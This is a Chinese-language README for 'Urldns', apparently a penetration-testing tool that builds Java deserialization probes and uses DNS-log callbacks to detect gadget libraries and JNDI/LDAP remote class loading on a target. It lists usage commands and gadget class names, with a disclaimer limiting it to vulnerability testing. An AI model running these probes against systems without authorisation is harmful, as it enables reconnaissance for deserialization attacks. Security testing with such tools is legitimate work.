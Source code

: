 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389。

请输入: java -jar Urldns.jar base64 all dnslog.com

或者   : java -jar Urldns.jar file all dnslog.com

或者   : java -jar Urldns.jar ldap all dnslog.com


目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
```CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
winlinux```
使用ldap模式的all将额外探测如下
javax.el.ELProcessor
org.apache.naming.factory.BeanFactory
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.mvel2.sh.ShellSession
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
com.alibaba.druid.pool.DruidDataSourceFactory

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com
ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
